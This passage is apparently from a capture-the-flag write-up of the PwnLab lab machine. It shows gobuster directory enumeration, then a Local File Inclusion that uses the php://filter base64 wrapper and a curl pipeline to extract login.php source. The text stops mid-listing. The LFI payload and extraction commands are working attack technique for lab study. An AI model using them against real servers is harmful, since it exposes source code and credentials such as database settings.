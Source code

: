 I ran gobuster to discover some interesting file or directory, the only one that catches my attention is the config.php file.

```console
root@kali:~$ gobuster dir -u http://192.168.179.176/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php,txt -e
...
http://192.168.179.176/index.php            (Status: 200) [Size: 332]
http://192.168.179.176/images               (Status: 301) [Size: 319] [--> http://192.168.179.176/images/]
http://192.168.179.176/login.php            (Status: 200) [Size: 250]                                      
http://192.168.179.176/upload               (Status: 301) [Size: 319] [--> http://192.168.179.176/upload/]
http://192.168.179.176/upload.php           (Status: 200) [Size: 19]                                       
http://192.168.179.176/config.php           (Status: 200) [Size: 0]                                        
http://192.168.179.176/server-status        (Status: 403) [Size: 303]
```

After to enumerate for some time I was able to detect a Local File Inclusion, using wrappers it was possible to read the PHP files, since when including the files of the system of conventional form didn't obtain results.

`http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=login`

![](/assets/images/pwnlab/screenshot-2.png)

## Exploitation
### Local File Inclusion

With curl I downloaded the content of the login.php file, we can see that the login form uses prepared queries, reason why SQL Injection wasn't possible.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=login" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee login.php
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
```